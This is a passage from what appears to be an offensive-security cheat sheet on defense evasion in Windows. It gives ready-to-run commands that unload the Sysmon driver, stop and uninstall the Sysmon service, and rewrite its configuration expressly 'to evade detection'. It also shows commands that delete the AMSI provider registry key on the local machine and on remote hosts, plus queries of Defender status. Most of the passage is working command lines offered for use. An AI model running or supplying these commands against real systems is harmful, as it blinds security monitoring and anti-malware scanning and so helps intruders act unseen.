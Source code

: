 ## 04 - Sysinternals

### 4.1 - Sysmon

#### 4.1.1 - Disable

Get driver for Sysmon and disable it.

```
C:\> fltmc.exe

C:\> fltmc.exe unload SysmonDrv
```

Disable Sysmon service.

```
C:\> sc.exe stop Sysmon64
```

Change configuration for sysmon to make it useless or reduce the ruleset to evade detection.

```
C:\> Sysmon64.exe -c sysmonconfig-export.xml
```

Change to default settings.

```
C:\> Sysmon64.exe -c --
```

#### 4.1.2 - Uninstall

Note: You must have administrative privileges

```
C:\> Sysmon64.exe -u
```

## 05 - Disable AMSI

### 5.1 - Powershell

```
PS C:\> Remove-Item -Path "HKLM:\SOFTWARE\Microsoft\AMSI\Providers\{2781761E-28E0-4109-99FE-B9D127C57AFE}" -Recurse

PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock { Remove-Item -Path "HKLM:\SOFTWARE\Microsoft\AMSI\Providers\{2781761E-28E0-4109-99FE-B9D127C57AFE}" -Recurse -Force }
```

#### 1.2.2.1 - Powershell

```
PS C:\> Get-WmiObject -Namespace root\microsoft\protectionmanagement -Class msft_mpcomputerstatus

PS C:\> Get-CimInstance -Namespace root\microsoft\protectionmanagement -Class msft_mpcomputerstatus
```
